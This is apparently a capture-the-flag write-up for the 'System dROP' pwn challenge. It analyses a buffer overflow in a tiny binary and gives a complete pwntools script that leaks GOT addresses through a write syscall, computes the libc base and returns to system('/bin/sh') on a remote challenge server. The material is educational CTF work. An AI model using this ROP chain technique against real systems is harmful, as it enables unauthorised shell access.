


<div align="center">
    <h1>System dROP</h1>
     
</div>

---

```txt
In the dark night, we managed to sneak in the plant that manages all the resources. Ready to deploy our root-kit and stop this endless draining of our planet, we accidentally triggered the alarm! Acid started raining from the ceiling, destroying almost everything but us and small terminal-like console. We can see no output, but it still seems to work, somehow..
This challenge will raise 33 euros for a good cause.
```

---

## Table of Contents

- [Table of Contents](#table-of-contents)
- [recon](#recon)
  - [code & behaviour](#code--behaviour)
    - [`main`](#main)
  - [vulns](#vulns)
    - [buffer overflow](#buffer-overflow)
- [exploit](#exploit)
  - [script](#script)
  - [run](#run)

## recon

### code & behaviour

This program contained very little functionality, so you essentially only had to take a look at the main function. It doesn't print anything, it just reads *a lot*.

#### `main`

```c
undefined8 main(void)
{
  undefined buf [32];
  
  alarm(0xf);
  read(0,buf,0x100);
  return 1;
}
```

### vulns

Yeah, there's only really one vulnerability here, but it's rather bad.

#### buffer overflow

Taking a close look at the `main` function, you'll see that it reads up to `0x100` (= `256`) bytes into a buffer that's only `32` bytes large --> this is a rather huge buffer overflow.

```c
...
  undefined buf [32];
...
  read(0,buf,0x100);
...
```

## exploit

This shouldn't be too complicated this time! Right? Well let's think of a way to exploit this binary step-by-step.

1. There's no *profit* function in the binary, so we'll probably have to `ret2libc`, but, we don't know what `libc` the binary is using. Therefore, we need to leak enough values from the GOT to determine that first.
   1. This is where the real twist comes into play, however: the binary doesn't include any `puts` or `printf` function that would usually be used for leaking values from the GOT. We do, however, have  a `syscall` gadget.
   2. We can just use that - we don't even need to find a ROP gadget to modify the `rax` register's value as `main` returns `1` (*what a coincidence ... ^^*).




2. Now that we've determined the `libc` version - using the leaked values and something like [libc.rip](https://libc.rip), we can compute its base in memory and therefore the address of *juicy* things such as `system` or `/bin/sh`. So, just use the buffer overflow with a short *rop-chain* to call `system` with `/bin/sh`.
3. Profit!

### script

```python
#!/usr/bin/env python3

from pwn import *
from argparse import ArgumentParser

# ================================ #
RIP_OFF: int    = 0x28
POP_RDI: int    = 0x00000000004005d3
POP_RSI: int    = 0x00000000004005d1
POP_RBP: int    = 0x00000000004004b8
# ================================ #

def _raw_leak(p: ELF, r: tubes.tube.tube, func: int, ret: int) -> bytes:
    leakr: ROP = ROP(p)
    leakr.call(POP_RDI)
    leakr.raw(1)
    leakr.call(POP_RSI)
    leakr.raw(func)
    leakr.raw(u64(b'paddingp'))
    leakr.call(POP_RBP)
    leakr.raw(p64(ret))
    leakr.call(p.sym['_syscall'])
    r.sendline(b'x'*RIP_OFF + leakr.chain())
    return r.recv()

def leak(p: ELF, r: tubes.tube.tube, func: int, ret: int) -> int:
    """Use `write` syscall to leak addresses ... """
    return u64(_raw_leak(p, r, func, ret)[:8])

def main():
    context.clear(arch='amd64')

    parser: ArgumentParser = ArgumentParser()
    parser.add_argument('--debug', action='store_true', help='Debug?')
    parser.add_argument('--remote', action='store_true', help='Remote?')
    parser.add_argument('--libc', type=str, help='Custom libc for remote ... ')
    args = parser.parse_args()

    p: ELF = ELF('./system_drop')
    
    if args.remote:
        l: ELF = ELF(args.libc or './libc6_2.27-3ubuntu1.4_amd64.so')
        print(f'[*] Using libc "{l.path}" ... ')
        r = remote('165.227.237.7', 32499)
    else:
        l: ELF = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
        r = process(p.path)

    if args.debug and not args.remote:
        gdb.attach(r, 'b *main+40')

    for k, v in filter(lambda t: t[0].startswith('got.'), p.sym.items()):
        got: int = leak(p, r, v, p.sym['main'])
        print(f'[*] Leaked "{k}" @ 0x{got:x} ... ')

    alarm: int = leak(p, r, p.sym['got.alarm'], p.sym['main'])
    l.address = alarm - l.sym['alarm']
    print(f'[*] Calculated libc base = 0x{l.address:x} ... ')

    drop: ROP = ROP(p)
    if args.remote:
        drop.call(drop.ret.address)
    drop.call(l.sym['system'], [next(l.search(b'/bin/sh\x00')),])
    print(f'[*] Sending payload: ')
    print(drop.dump())

    r.sendline(b'x'*RIP_OFF + drop.chain())
    r.interactive()

if __name__ == '__main__':
    main()
```

### run



<h4 align="center">
    CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}
</h4>

---

... m4ttm00ny (April 2021)
